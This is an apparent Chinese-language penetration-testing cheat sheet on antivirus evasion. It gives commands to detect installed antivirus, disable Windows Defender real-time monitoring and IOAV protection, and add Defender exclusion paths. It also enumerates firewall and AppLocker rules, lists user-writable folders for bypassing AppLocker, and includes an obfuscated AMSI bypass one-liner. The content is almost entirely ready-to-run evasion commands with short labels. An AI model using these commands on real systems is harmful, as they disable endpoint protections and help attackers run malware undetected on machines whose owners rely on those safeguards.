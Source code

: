 # AV躲避

**发现AV：**

`WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntivirusProduct Get displayName`

### Windows Defender:

Get-MpComputerStatus    查看状态

Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus    禁用实时扫描

Set-MpPreference -DisableIOAVProtection $true      禁用amsi

Add-MpPreference -ExclusionPath "C:\Windows\Tasks"     task是白名单

防火墙

netsh advfirewall firewall dump   查看防火墙状态和配置

```bash
$f=New-object -comObject HNetCfg.FwPolicy2;$f.rules |  where {$_.action -eq "0"} | select name,applicationname,localports
```

## AppLocker （微软的应用程序白名单技术）

```bash
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

### AppLocker bypass

1. ****将文件放在可写路径中（下列文件夹普通用户都可写）****

C:\Windows\Tasks

C:\Windows\Temp

C:\Users\Public

C:\windows\tracing

C:\Windows\Registration\CRMLog

C:\Windows\System32\FxsTmp

C:\Windows\System32\com\dmp

C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys

C:\Windows\System32\spool\PRINTERS

C:\Windows\System32\spool\SERVERS

C:\Windows\System32\spool\drivers\color

C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)

C:\Windows\SysWOW64\FxsTmp

C:\Windows\SysWOW64\com\dmp

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter

C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System

**powershell的默认路径：**

```bash
C:\windows\syswow64\windowspowershell\v1.0\powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell
```

### AMSI Bypass

```bash
[Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
```